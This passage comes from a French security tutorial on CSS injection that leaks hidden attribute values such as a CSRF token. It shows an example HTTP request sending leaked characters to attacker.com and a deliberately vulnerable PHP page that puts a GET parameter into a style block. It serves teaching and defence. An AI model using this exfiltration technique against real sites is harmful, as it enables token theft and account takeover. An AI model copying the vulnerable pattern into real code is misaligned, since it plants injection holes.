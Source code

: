 L'attaquant devra continuer son attaque pour récupérer ainsi les caractères restants :

{% code overflow="wrap" %}
```http
GET /?leak=ab4f63f9 HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
L'inconvénient de ces techniques est qu'elles sont limitées à la récupération d'une information présente au sein d'un attribut. Impossible donc ici de récupérer le contenu d'un élément `<span></span>`, d'un `<script></script>` ou d'un paragraphe `<p></p>` par exemple.

Il existe toutefois d'autres techniques permettant cela et qui seront vues dans les prochaines parties de cet article.
{% endhint %}

### Récupération de la valeur d'un attribut d'un élément HTML de type hidden via la pseudo-class CSS `has()`

Une alternative pouvant répondre à certaines limites des combinateurs CSS est d'utiliser le sélecteur CSS `has()` de la façon suivante :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Has attribute selectors iframe with hidden input</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}
